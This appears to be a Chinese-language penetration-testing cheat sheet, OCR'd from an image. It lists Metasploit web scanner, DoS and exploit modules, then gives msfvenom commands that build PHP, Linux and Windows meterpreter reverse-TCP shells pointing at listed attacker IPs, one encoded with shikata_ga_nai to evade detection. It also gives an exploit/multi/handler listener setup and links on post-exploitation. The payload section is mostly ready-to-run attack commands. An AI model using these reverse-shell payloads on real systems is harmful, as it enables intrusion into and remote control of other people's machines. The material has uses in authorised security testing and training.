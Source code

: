         Module auxiliary/scanner/http/webdav_internal_ip Module auxiliary/scanner/http/webdav_scanner
        Module auxiliary/scanner/http/webdav_website_content 文件目录扫描模块
        Module auxiliary/dos/http/apache_range_dos
        Module auxiliary/scanner/http/backup_file
        Module auxiliary/scanner/http/brute_dirs
        Module auxiliary/scanner/http/copy_of_file
        Module auxiliary/scanner/http/dir_listing
        Module auxiliary/scanner/http/dir_scanner
        Module auxiliary/scanner/http/dir_webdav_unicode_bypass Module auxiliary/scanner/http/file_same_name_dir
        Module auxiliary/scanner/http/files_dir
        Module auxiliary/scanner/http/http_put
        Module auxiliary/scanner/http/ms09_020_webdav_unicode_bypass Module auxiliary/scanner/http/prev_dir_same_name_file
        Module auxiliary/scanner/http/replace_ext
        Module auxiliary/scanner/http/soap_xml
        Module auxiliary/scanner/http/trace_axd
        Module auxiliary/scanner/http/verb_auth_bypass

        web 应用程序漏洞扫描模块
        Module auxiliary/scanner/http/blind_sql_query Module auxiliary/scanner/http/error_sql_injection Module auxiliary/scanner/http/http_traversal
        Module auxiliary/scanner/http/rails_mass_assignment Module exploit/multi/http/lcms_php_exec

## payload生成

### php rev
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=119.29.226.211 LPORT=2341 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### linux
```bash
msfvenom -p payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf
```
### win
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=192.168.203.139 LPORT=2341 -f exe > abc.exe
```
### 监听

```bash
use exploit/multi/handler
set payload 
sey LHOST
set LPORT
```

### msf后渗透过程
https://zhuanlan.zhihu.com/p/31060056
http://www.freebuf.com/articles/system/5884.html